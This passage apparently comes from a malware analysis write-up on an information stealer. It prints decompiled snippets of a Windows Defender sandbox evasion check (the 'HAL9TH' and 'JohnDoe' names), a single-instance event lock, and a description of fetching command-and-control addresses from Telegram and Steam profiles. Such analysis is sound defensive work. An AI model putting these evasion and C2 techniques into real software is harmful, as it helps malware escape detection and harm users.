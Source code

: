 ```cpp
int anti_windows_defender_sandbox_checkname()
{
  int result; // eax

  result = strcmp(get_computer_name(), (const char *)HAL9TH_str);
  if ( result )
    return result;
  result = strcmp(get_username(), (const char *)JohnDoe_str);
  if ( !result )
    ExitProcess_0(0);
  return result;
}
```
Compares the current computer name with the string "HAL9TH", which is the name of the computer in the Windows Defender sandbox

All of this works because windows defender cannot allocate a lot of resources to the virtual machine to run, as this would severely affect the main system and slow it down a lot

# Anti double start

This feature prevents two malware from starting and running at the same time.

```cpp
HANDLE v4;
HANDLE hPc_hwid_1;
char pc_hwid_1[500] = "pc hwid here";
while ( 1 )                                   // anti double run
{
    v4 = OpenEventA(0x1F0003u, 0, pc_hwid_1);
    hPc_hwid_1 = (int)v4;
    if ( !v4 )
      break;
    CloseHandle_0(v4);
    Sleep_0(5000u);
}
hPc_hwid_1 = (int)CreateEventA(0, 0, 0, pc_hwid_1);
```

The function tries to open an event with the hardware id and if the operation is successful, it goes to sleep for some time, if it fails to open the event, malware will create a new one, thus blocking the launch of copies until the process is finished.


# Getting c2 ip

Malware uses a very interesting system to get the ip c2 panel to connect, it parses it from the channel description in telegram and the nickname of the account in steam

![telegram_and_steam_links](/posts_assets/vidar-stealer/telegram_and_steam_links.png)
